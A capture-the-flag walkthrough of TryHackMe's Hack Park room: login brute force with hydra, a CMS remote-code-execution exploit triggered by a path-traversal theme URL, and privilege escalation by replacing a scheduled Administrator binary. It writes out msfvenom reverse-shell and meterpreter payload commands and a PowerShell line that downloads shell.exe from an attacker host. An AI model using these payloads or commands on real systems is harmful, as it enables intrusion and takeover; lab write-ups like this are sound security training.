# This is a writeup of: Hack Park from TryHackMe
## Difficulty: Medium

---

Name: Alexander Spiesberger   
Contact: alex.spiesberger@gmail.com  
Date: 3 March 2021

---



We first start, as always with the scan, nmap, gobuster and nikto:   



While waiting for the scan to end, we can look a bit around on the website.   
We find a login, a contact form and other stuff.   
Gobuster and Nikto both found a robots.txt file, we go and take a look at it, but nothing too crazy.   
On the task they tell us to brute force the login, I actually don't find any credentials, so I must admit I took the hint.  
So I know now, that the username is admin.  
To brute it, I intercept the request with burp: 



You can then copy what can be seen in the screenshot.   
We will feed this to hydra:   

Quick explaination of what is done here:   
- First change is to were the file is (color: red)
- Second change is to the USER (color: green)
- Third change is to PASS (color: blue)
- Last change is the error message (color: yellow)



With the hydra launched, we get back a password, YAY:



We can now connect to it:



So, we are now connected to a CMS as, normally admin.   
We search a version number, and find one in the about section:  



We find on searchsploit a remote code execution for this version.  
We copy it to our folder and see what it does:   



It is really well explained in the file, so I do what they say:  



- We change the IP and PORT.      
- We rename it: *"PostView.ascx"* 
- And we then have to upload our file:
  1) we go to *"published posts"*
  2) open the post *"Welcome to HackPark"* 
  3) click on the file manager (open file symbol)
  4) We upload our file named: *"PostView.ascx"*
- Then go to this link with a listener running, it should trigger it: http://<IP>/?theme=../../App_Data/files



The listener that gives us our shell:   



Ok, we are now connected to the machine.   
We, we can now take the way with metasploit or without.
Without metasploit, you can create a payload to get a more stable shell, possible payloads:   
- *msfvenom -p windows/shell_reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<IP> LPORT=<PORT> -f exe -o test.exe*
  
Then just pull it with powershell or other technique to a writable directory:
- powershell -c "Invoke-WebRequest -Uri '<ip>:<port>/shell.exe' -OutFile 'C:\Windows\Temp\shell.exe'"

I will do it here with metasploit to get a meterpreter and then continue in a way that works for both.     
Payload:   
- *"msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<IP> LPORT=<PORT> -f exe -o reverse.exe"*



I then download it to the other machine by setting a pyton server and downloading it with another method:  



I then set up my multi/handler to get my meterpreter shell back:   



We launch the exectubale ... and, we get our meterpreter:   



Ok I will now upload winPEAS to find a way to escalate, because we are still *"IIS APPPOOL\Blog"*.   



We can then launch it:   



After looking a bit I found a service running that looked interesting:   



So I went to *"C:\Program Files (x86)\SystemScheduler"*, continued to the only directory: *"Events"* and downloaded the only txt file:  



We then read the log file and see that it calls a process, *"Message.exe"* as Administrator:   



So I went to take a look at the binary, maybe we can delete it to replace it with another file that would have a payload.   
But we can't, It took me some time to understand that I could just rename it...   
So I did this, I renamed the file and created a new one and hoped that I could upload a new file with the name *"Message.exe"* to this location:   
We could here actually just rename the older file and exit the meterpreter shell, create a new one, and get root.   
And it would clearly be better to have a meterpreter.        



Anyway, we upload this, rename the last file and set up a listener:



The only thing to do now, is to wait and let the magic happen!  



The magic happened, and we are now Administrator, we can go and read all the flags:    





And, we are now done with all those sweet flags.   

----

I hope you enjoyed my walkthrough and that is was clear.   
For any questions regarding this CTF or any other subject this is my email: alex.spiesberger@gmail.com   
 

